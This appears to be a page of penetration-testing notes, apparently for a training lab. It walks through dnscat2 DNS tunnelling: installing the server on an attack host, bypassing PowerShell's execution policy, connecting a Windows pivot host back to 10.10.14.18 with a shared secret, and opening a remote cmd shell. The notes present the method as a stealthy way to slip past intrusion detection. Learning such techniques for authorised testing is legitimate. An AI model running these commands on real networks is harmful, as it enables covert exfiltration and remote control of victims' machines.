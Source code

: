 -- -
Exfiltrate data over DNS. The data will be encrypted and be sent over the network as the content of a DNS TXT record. Works as a Command & Control (C2) connection. Extremely stealthy approach, should get passed IDS/IPS systems even if they try to inspect the packets sent over the network as they mostly check HTTP traffic for exfiltration.
#### Git Install - Server
Install and run server on attack host
```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
sudo gem install bundler
sudo bundle install
```
#### Git Install - Client
In this example, we will use the powershell client. There are multiple versions/flavors.
First, download the repo:
`git clone https://github.com/lukebaggett/dnscat2-powershell.git`
Then, [[Dark Arts I/File Transfer/Windows|file transfer]] over the `dnscat2.ps1` script to windows pivot host. Import module into powershell:
```powershell
# open powershell with execution policy set to bypass
powershell -ep bypass

# import module
Import-Module .\dnscat2.ps1
```
#### Establish Tunnel
Start the server on the attackbox:
```bash
# This will spit out a Secret Key used for encryption and passed to the client in the below command under the -PreSharedSecret param
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
Start Client on Windows Pivot Host:
```powershell
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```
#### Basic Interactions
Upon completion, you will get a session on the server. This lets you interact with the dnscat directly:
```bash
# pull up help menu
dnscat> ?

# open a shell on pivot host:
window -i 1

# to exit shell:
ctrl-z
```